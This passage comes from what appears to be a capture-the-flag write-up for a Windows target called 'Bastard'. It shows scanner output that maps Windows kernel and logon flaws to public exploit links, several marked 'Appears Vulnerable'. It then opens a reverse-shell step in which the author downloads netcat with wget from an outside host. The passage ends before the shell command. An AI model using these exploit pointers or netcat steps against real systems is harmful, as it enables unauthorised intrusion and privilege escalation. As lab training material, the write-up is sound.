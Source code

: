 MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Not Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Not Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable
{% endhighlight %}  

Before we do our privledge elevation we need a remote shell we can do this with netcat.  

## Reverse Shell Netcat

Initially, we downloaded the netcat executable for the 64-bit architecture.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4186]
╰─[:)] # wget https://raw.githubusercontent.com/hackingprofessional/Utilidades/master/netcat-win32-1.11.zip
{% endhighlight %}  
